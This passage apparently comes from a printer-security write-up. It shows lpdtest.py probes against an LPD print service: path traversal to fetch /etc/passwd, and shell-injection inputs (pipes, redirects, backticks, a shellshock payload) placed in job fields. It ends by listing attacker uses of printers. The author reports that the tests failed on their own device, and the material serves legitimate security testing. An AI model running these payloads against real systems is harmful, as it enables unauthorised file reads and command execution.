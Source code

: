 #### 'get' Test

Trying to get (aka print) a file from printer's file system.

  $ lpdtest.py printer get /etc/passwd
  $ lpdtest.py printer get ../../../etc/passwd
  # etc...

#### 'in' Test

This test is for fuzzing around with user input (hostname,username, jobname, filenames, etc.).
This might be useful to test for interpretation of shell commands...

    # Test for environment variables
    $ lpdtest.py printer in '$UID'

    # Test for pipes and redirects
    $ lpdtest.py printer in '| pwd'
    $ lpdtest.py printer in '>> /etc/passwd'

    # Test for backticks
    $ lpdtest.py printer in '`ls`'

    # Test for [shellshock (CVE-2014-6271)](http://seclists.org/oss-sec/2014/q3/650)
    $ lpdtest.py printer in '() {:;}; /bin/ping -c1 1.2.3.4'



As expected these attacks were already fixed.
My printer spit out a few pages with lines like

  "If you can read this lpdtest.py XYZ failed!"

So the result here some wasted paper and ink..

------------------------------------------------------------------------------------------------------------


# Summary
## Why Printer Exploitation?

* (most) printers are already full blown computers!
    * Printer as port/network/exploits scanner
    * Computing/hash-cracking/sniffing
    * Malware upload
    * “Stealth”/"uncleanable" command and control
    * Unencrypted data theft
